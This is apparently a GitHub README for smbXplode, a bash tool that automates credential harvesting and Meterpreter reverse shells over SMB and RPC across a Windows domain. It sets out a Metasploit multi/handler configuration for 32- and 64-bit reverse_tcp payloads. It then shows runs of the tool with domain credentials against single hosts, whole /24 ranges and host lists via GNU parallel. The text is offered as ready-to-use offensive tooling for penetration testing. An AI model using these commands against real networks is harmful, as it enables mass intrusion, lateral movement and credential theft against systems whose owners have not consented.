 # smbXplode

What to do when Metasploit psexec module doesn't work for no good reason? 

This script is used to automate the process of harvesting credentials and getting Meterpreter sessions through smb and rpc in a windows domain.
For this to work you would need to have some kind of admin credentials to start with. or you could have some low privileged credentials; that you want to try them against the whole range and try to escalate your privilege later on. 

You can always re-adapt msfcommands.rc to automate the Metasploit commands that you want to run once you have a session. 

Also notice that due to the use of net rpc, you need to migrate first thing after a session otherwise the session would die. You can always fall back to use the Winexe command (which you can find commented in the script).

### Features 
- Detects remote host architecture before uploading payload
- Abstracts the process of upload/execute payload on remote host
- Combined with "gnu parallel", it can exploit whole ranges/host lists within one command line

### Future improvements
- Better integrate gnu parallel with in the script itself for more convenience.
- Improve the way arguments are passed, add arguments for number of threads, ip ranges, host files. 
- Add the ability to go through a list of captured credentials, to check them against the ip/range in scope. 

### Usage 
Before running this script, simply make sure that you have two payload files (32 & 64 bit). Make sure to update the name of the files accordingly in the script. 


#### Metasploit Handler
Make sure to have your Metasploit handler listening for both payloads ( you can listen two different ports for 32, and 64 ).
Also, make sure you select the correct payload for the handler, I will demonstrate the reverce_tcp (32 and 64) 

Example :

```
use exploit/multi/handler
set autorunscript multi_console_command -rc /path/to/msfcommands.rc
set ExitOnSession false
set payload windows/x64/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 1111
run -j -z
set payload windows/meterpreter/reverse_tcp
set lport 2222
run -j -z
```

Now make sure that your connect back payloads are configured to match those ports and payload type. 

#### Single Host
To run the script simply use the following syntax
```	
./smbXplode.sh domain username password hostIP
```

Example : 
```
./smbXplode.sh domain tito Password2015 10.10.10.10
```

#### Multiple Hosts
So far it's not really integrated into the script, as I like to keep it as simple as possible. I rely on GNU parallel to do that. 
Notice that parallel passes the IP as the last parameter already. 

Example 
```
Running against a /24
for i in {1..254}; do echo 10.10.10.$i; done | parallel -j 5 ./smbXplode.sh domain tito Password2015
```
```
Running against host ips file
cat hosts.txt | parallel -j 5 ./smbXplode.sh domain tito Password2015
```


